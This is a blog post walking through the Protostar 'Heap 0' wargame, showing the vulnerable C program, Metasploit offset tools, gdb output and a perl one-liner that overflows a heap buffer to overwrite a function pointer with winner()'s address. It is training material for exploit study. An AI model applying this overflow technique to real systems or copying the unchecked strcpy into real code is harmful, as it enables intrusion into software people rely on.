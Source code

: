 ```yaml
---
layout: post
title: "Exploit Exercises - Protostar Heap 0"
date: 2012-01-10T05:34:00-05:00
comments: true
categories:
 - wargames
 - Protostar
 - linux
 - exploit-exercises
 - hacking
 - heap
---
```


Now that I've completed all of the Stack section of protostar, I've started to move onto Heap.  The first of these challenges, is [Heap 0](http://exploit-exercises.com/protostar/heap0).  

<!-- more -->

We are given the following code:

```
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <stdio.h>
#include <sys/types.h>

struct data {
 char name[64];
};

struct fp {
 int (*fp)();
};

void winner()
{
 printf("level passed\n");
}

void nowinner()
{
 printf("level has not been passed\n");
}

int main(int argc, char **argv)
{
 struct data *d;
 struct fp *f;

 d = malloc(sizeof(struct data));
 f = malloc(sizeof(struct fp));
 f->fp = nowinner;

 printf("data is at %p, fp is at %p\n", d, f);

 strcpy(d->name, argv[1]);

 f->fp();

}
```

I first needed to find the offset to where I could overwrite the EIP, so I connected to my other machine with the [Metasploit Framework](http://www.metasploit.com) installed, and generated a unique string.

```
mandreko@li225-134:/opt/framework-4.0.0/msf3/tools$ ./pattern_create.rb 250
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2A
```

I then used this string as the input to the heap0 executable.

```
user@protostar:/opt/protostar/bin$ gdb ./heap0 --quiet
Reading symbols from /home/user/heap0...done.
(gdb) run Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2A
Starting program: /home/user/heap0 Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2A
data is at 0x804a008, fp is at 0x804a050

Program received signal SIGSEGV, Segmentation fault.
0x41346341 in ?? ()
(gdb) print winner
$1 = {void (void)} 0x8048464 <winner>
```

Notice that we see the EIP is 0x41346341.  Additionally while I was debugging, I also got the address of the "winner" function, since I will want to redirect to that later.  It was at 0x08048464. 

I then connected to my [Metasploit Framework](http://www.metasploit.com) enabled machine to calculate the offset. 

```
mandreko@li225-134:/opt/framework-4.0.0/msf3/tools$ ./pattern_offset.rb 0x41346341
72
```

I then simply used perl to create an argument for the heap0 executable with 72 "A"s for spacing, and passing the address of the "winner" function in little-endian format to it.  It then succeeded.

```
user@protostar:/opt/protostar/bin$ ./heap0 `perl -e 'print "A"x72 . "\x64\x84\x04\x08"'`
data is at 0x804a008, fp is at 0x804a050
level passed
```